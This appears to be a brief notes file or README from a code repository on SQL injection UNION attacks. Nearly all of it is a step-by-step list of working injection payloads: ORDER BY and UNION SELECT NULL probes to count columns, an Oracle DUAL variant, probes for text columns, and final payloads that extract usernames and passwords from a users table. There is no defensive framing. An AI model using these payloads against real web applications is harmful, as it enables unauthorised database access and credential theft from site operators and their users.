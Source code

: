 # sql-injection-union

SQL INJECTION UNION ATTACK

SELECT a, b FROM table1 UNION SELECT c, d FROM table2

1-)
' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3--
ETC.
OR
' UNION SELECT NULL--

' UNION SELECT NULL,NULL--

' UNION SELECT NULL,NULL,NULL--
etc.

BUT ON ORACLE   ' UNION SELECT NULL FROM DUAL-- 

3-)
' UNION SELECT 'a',NULL,NULL,NULL--

' UNION SELECT NULL,'a',NULL,NULL--

' UNION SELECT NULL,NULL,'a',NULL--

' UNION SELECT NULL,NULL,NULL,'a'--

4-)
' UNION SELECT username, password FROM users--

and single column
' UNION SELECT username || '~' || password FROM users--
